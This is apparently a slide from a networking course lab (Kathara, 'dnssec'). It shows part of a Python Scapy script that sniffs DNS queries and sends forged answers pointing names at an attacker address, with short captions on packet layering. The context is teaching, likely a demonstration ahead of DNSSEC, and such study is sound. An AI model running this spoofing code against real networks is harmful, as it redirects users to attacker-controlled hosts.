

# Python code for DNS response spoofing and forwarding
/r2/r2_attack.py

                qr=1,
                aa=1,
                ra=1,
                qd=pkt[DNS].qd,
                an=DNSRR(rrname=qname, type='A', rclass='IN', ttl=600, rdata=EVIL_IP)
            )
            spoofed_pkt = ether_layer/ip_layer/udp_layer/dns_layer
            sendp(spoofed_pkt, iface=INTERFACE, verbose=False)
try:
    sniff(iface=INTERFACE, filter=f"udp port 53 and dst host {DNS_UNI_IP}",
        prn=dns_spoof, store=0)
except KeyboardInterrupt:
    print("\n[*] Attack stopped by user.")

Put DNS inside UDP, UDP inside IP, and IP inside Ethernet
send the packet over the network
kathara – [ lab: dnssec ]
last update: Feb 2026